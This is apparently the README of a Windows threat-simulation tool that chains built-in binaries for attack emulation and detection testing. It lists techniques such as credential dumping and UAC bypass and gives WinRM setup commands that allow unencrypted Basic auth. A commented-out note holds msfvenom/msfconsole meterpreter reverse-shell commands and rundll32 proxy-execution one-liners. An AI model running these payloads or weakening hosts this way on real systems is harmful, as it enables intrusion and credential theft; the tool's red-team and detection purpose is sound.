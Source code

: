 # Build-Your-Own-LOLBins
![Python](https://img.shields.io/badge/python_3.10.9-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54)
![Windows](https://img.shields.io/badge/Windows-0078D6?style=for-the-badge&logo=windows&logoColor=white)

Build Your Own LOLBins (BYOL) is a threat simulation platform used for demonstrating the weaponization and detection
of Living-off-the-Land binaries native to the Windows Operating System. 

## Inspiration
This project is highly inspired by [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) and aims to expand beyond the scope of that by eliminating atomicity in individual test cases and providing flexibility in customization.

## Featues
* LOLBins Chaining
* Self-Cleanup
* Commandline Obfuscation
  * Globufscation Wildcards
  * Character Substitution
* Customizable Payloads
* Custom Templates
* APT Procedural Examples
* MITRE ATT&CK Framework Support

## Installation
The technical requirements of this project are:
* Python 3.10.9
* Windows 10 64-bit (Victim Virtual Machine)
<br>

**NOTE**: BYOL uses Windows Remote Management (WinRM) to communicate with the remote host.
> To enable WinRM on the victim machine:
```
$ winrm quickconfig
$ winrm set winrm/config/service '@{AllowUnencrypted="true"}'
$ winrm set winrm/config/service/auth '@{Basic="true"}'
$ netsh advfirewall firewall add rule name="WinRM-HTTP" dir=in localport=5985 protocol=TCP action=allow
$ Set-NetConnectionProfile -NetworkCategory Private
```

## Technique Coverage
| LOLBins | Variants | Objectives |
|:-----|:---------:|:-----------|
Certutil.exe | 5 | `Download` `ADS` `Encode` `Decode`
Msiexec.exe | 1 | `Execute`
Regsvr32.exe | 3 | `Execute` `AWL Bypass`
Cmstp.exe | 1 | `Execute`
Esentutl.exe | 2 | `ADS` `Credentials Dumping`
Rdrleakdiag.exe | 1 | `Credentials Dumping`
Makecab.exe | 1 | `Conceal`
Extract32.exe | 1 | `Decode`
Reg.exe | 3 | `AWL Bypass` `UAC Bypass`
Verclsid.exe | 1 | `Execute`
Regedit.exe | 1 | `Upload`
Mavinject.exe | 1 | `Execute`
Bitsadmin.exe | 1 | `Download`
Expand.exe | 2 | `Copy` `ADS`
Cscript.exe | 2 | `Execute`
Rundll32.exe | 7 | `Execute` `Download`
Mshta.exe | 3 | `Execute` `Download`
Wuauclt.exe | 1 | `Execute`
Eventvwr.exe | 1 | `UAC Bypass`
Pcalua.exe | 2 | `Execute`
Wmic.exe | 3 | `Execute`
Cmd.exe | 1 | `Execute`
Powershell.exe | 4 | `Execute`

## To-Do
- [ ] Export Report + JSON
- [X] WinRM Exceptions
<!-- 
## Usage

## Limitations
* Use Local Administrator Account
* Recommended to Disable Antivirus
* Recommended to use Cleanup with ErrorLevel
* Recommended to put Cleanup before Verification for accurate result
* Require user to manually close certain GUI Error Box so that scan can continue especially when antivirus is enabled (Rundll32)
* Does not recommend customization, although available
* All command behind an ampersand "&" will be passed into cmd.exe

## Note
```
IF NOT EXIST %TEMP%\byol.dll EXIT 2
Start-Process regsvr32 $env:TEMP\byol.dll

msfvenom -p windows/x64/meterpreter/reverse_http LHOST=192.168.127.131 LPORT=4444 -f csharp
sudo msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_http;set LHOST 192.168.127.131;set LPORT 4444;run -j"
(for /f "tokens=5" %a in ('netstat -ano ^| find ":4444" ') do taskkill /f /pid %a)

regasm
regsvcs
rundll32.exe advpack.dll, #+12 calc.exe
rundll32.exe zipfldr,RouteTheCall calc.exe
rundll32.exe url,OpenURL file://c:\windows\system32\calc.exe
rundll32.exe url.dll,FileProtocolHandler calc.exe
```
 -->

